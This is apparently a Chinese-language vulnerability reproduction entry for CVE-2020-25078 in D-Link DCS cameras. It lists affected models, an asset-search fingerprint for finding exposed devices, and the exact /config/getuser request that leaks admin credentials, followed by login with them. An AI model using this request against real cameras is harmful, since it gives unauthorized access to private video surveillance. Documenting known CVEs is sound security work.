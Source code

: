 # D-Link DCS系列监控 账号密码信息泄露漏洞 CVE-2020-25078

# D-Link DCS系列监控 账号密码信息泄露漏洞 CVE-2020-25078

## 漏洞描述

D-Link DCS系列监控 通过访问特定的URL得到账号密码信息，攻击者通过漏洞进入后台可以获取视频监控页面

## 漏洞影响

```
DCS-2530L
DCS-2670L
DCS-4603
DCS-4622
DCS-4701E
DCS-4703E
DCS-4705E
DCS-4802E
DCS-P703
```

## 网络测绘

```
app="D_Link-DCS-2530L"
```

## 漏洞复现

访问登录页面如下



![](/images/202202162226738.png)

出现漏洞的 Url 为, 其中泄露了账号密码

```plain
http://xxx.xxx.xxx.xxx/config/getuser?index=0
```



![](/images/202202162227778.png)

使用泄露的账号密码登陆系统

![](/images/202202162227388.png)

